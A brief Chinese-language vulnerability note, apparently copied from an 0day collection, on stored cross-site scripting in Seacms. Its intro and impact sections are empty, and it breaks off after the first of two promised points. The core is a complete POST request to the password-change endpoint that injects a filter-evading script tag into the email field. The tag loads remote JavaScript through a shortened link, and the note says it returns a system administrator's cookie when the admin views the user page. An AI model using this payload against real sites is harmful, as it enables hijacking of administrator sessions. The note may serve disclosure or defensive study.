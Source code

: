 # Seacms 储存型 xss

> 原文：[http://book.iwonder.run/0day/Seacms/1.html](http://book.iwonder.run/0day/Seacms/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /member.php?action=chgpwdsubmit

oldpwd=test&newpwd=test&newpwd2=test&email=test%40test.com<scbase64ript src=https://url.cn/585l00F></scrbase64ipt>&nickname=&gaimi=%E7%A1%AE%E8%AE%A4%E4%BF%AE%E6%94%B9 
```

### src 的值为[http://127.0.0.1/test.js 的短链接](http://127.0.0.1/test.js 的短链接)

当后台浏览到后台界面时，会触发漏洞，反弹回来 Cookie，但需要注意两点，第一，只有系统管理员才能看到用户界面，普通管理员是没有这个权限的。

